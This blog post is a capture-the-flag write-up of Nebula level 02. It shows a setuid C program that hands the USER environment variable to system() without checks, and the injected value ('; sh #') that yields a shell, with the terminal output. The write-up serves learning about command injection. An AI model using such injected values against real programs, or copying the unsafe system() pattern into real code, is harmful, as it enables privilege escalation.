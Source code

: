 ```yaml
---
author: alvaro
comments: true
layout: post
title: Nebula Level 02
categories:
- Archive
tags:
- security
---
```


Today we have to deal with the challenge nebula 02. We should find out the vulnerability in the following snippet.

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

The first part of the program remains the same as the challenge in nebula 01. If we look the code carefully we can spot quickly when the problem might arise. If in somehow I can trick the program to execute code when it executes `/bin/echo $USER is cool` the work is done.

We have to try that once the program get the value of variable `USER` execute other command. To achieve that we should know a little bit about bash and the solution comes to us quickly.

In bash there is a way to indicate separation between different statements in one line and is using the special character `;`. We can see how the user does not sanitize the value that returns `getenv` so it process the meta-characters as normal characters. So to execute an arbitrary program would be enough to do the next.

```bash
$ USER="level02 ; echo You was pwned ; sh # "
$ ./flag02
about to call system("/bin/echo level02 ; echo You was pwned ; sh #  is cool")
level02
You was pwned
sh-4.2$
```

In that way we got a shell. Maybe you are wondering about `sh #`. That is why without the `#` the string `is cool` would be considered as a file so we put `#` to comment that line. You can try on your own that without `#` you don’t get the shell.

```bash
$ ./flag02
about to call system("/bin/echo level02 ; echo You was pwned ; sh  is cool")
level02
You was pwned
sh: is: No such file or directory
```


{% include twitter_plug.html %}

	